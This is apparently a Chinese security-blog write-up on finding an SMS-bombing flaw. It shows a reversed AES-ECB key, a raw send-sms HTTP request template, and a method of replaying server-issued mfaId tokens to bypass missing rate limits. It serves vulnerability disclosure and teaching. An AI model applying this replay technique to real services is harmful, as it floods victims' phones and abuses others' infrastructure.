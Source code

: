 #  简易短信轰炸漏洞挖掘   
原创 小白鱼  掌控安全EDU   2025-06-02 04:00  
  
扫码领资料  
  
获网安教程  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/BwqHlJ29vcrpvQG1VKMy1AQ1oVvUSeZYhLRYCeiaa3KSFkibg5xRjLlkwfIe7loMVfGuINInDQTVa4BibicW0iaTsKw/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/b96CibCt70iaaJcib7FH02wTKvoHALAMw4fchVnBLMw4kTQ7B9oUy0RGfiacu34QEZgDpfia0sVmWrHcDZCV1Na5wDQ/640?wx_fmt=other&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
  
# 本文由掌控安全学院 -  小白鱼 投稿  
  
**来****Track安全社区投稿~**  
  
**千元稿费！还有保底奖励~（https://bbs.zkaq.cn）**  
## 大致流程  
  
手机号等数据被加密，通过逆向找到加密方式—>对手机号加密发送验证码—>手机带着标识值给服务器—>服务器会给手机重新生成一个标识值—>利用服务器重新生成的标识值再发送给服务器  
## 挖掘流程  
### 逆向找出加密方式及密钥  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/BwqHlJ29vcoVqqP3BAN3BKEI3QAT8PiaBO8L4aTXHayicc9oF1GYGH0AlZOjV5p3A6SdJCoRPD90s6knGl3PeeLw/640?wx_fmt=png&from=appmsg "null")  
  
img  
  
通过断点逆向找出加密方式及密钥 AES-ECB加密 U0Xg55zo9-TglUjxvBG_Dac_2NAsAyQc 尝试加密手机号判断密钥是否正确可用  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/BwqHlJ29vcoVqqP3BAN3BKEI3QAT8PiaBLqA2w1tb8xufq59c540UEBakSfiapnK49a9dPmqXGgtU99PQocYMqKA/640?wx_fmt=png&from=appmsg "null")  
  
img  
### 短信轰炸流程  
  
抓取发送验证码数据包并发送可以发现发送包和回响包都有一个mfaid值  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/BwqHlJ29vcoVqqP3BAN3BKEI3QAT8PiaBZj3qcVUUj6UaF2rVo6E2OQgd2FBWjpuGRxHibDKib5kTaDdZeFuljZ5w/640?wx_fmt=png&from=appmsg "null")  
  
img  
  
这里mfaid值得作用是起一个标识作用，告诉服务器我要发送验证码，这个值只能用一次，过后你要给我返回一个新的值  
  
```
POST /prod-api/xxxr/xxx/send-sms HTTP/1.1
Host: xxxx
Cookie: xxxxxx
Content-Length: 65
Sec-Ch-Ua-Platform: “Windows”
Sec-Ch-Ua: “Microsoft Edge”;v=”131”, “Chromium”;v=”131”, “Not_A Brand”;v=”24”
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36 Edg/131.0.0.0
Accept: application/json, text/plain, */*
Content-Type: application/json;charset=UTF-8
Istoken: false
Accept-Certificate: 81111559-124c-408e-b436-a86ff5f3d95e
Origin: xxxxxxx
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: xxxxxxx
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Priority: u=1, i
Connection: keep-alive

{“phoneNumber”:”手机号加密”,”mfaId”:”TMAxxxxxUupr”}
```  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/BwqHlJ29vcoVqqP3BAN3BKEI3QAT8PiaBCnTok1twjSVytZvGIiblL0rz7RyJTO8f4ic74uepLUxlJkl8cibM2iclcQ/640?wx_fmt=png&from=appmsg "null")  
  
img  
### 漏洞原因  
  
把mfaid值进行来回替换达到一个短信发送得目的，同时这里未对手机号的发送次数做限制，导致可使用mfaid值进行无限发送造成短信轰炸  
```
```  
  
  
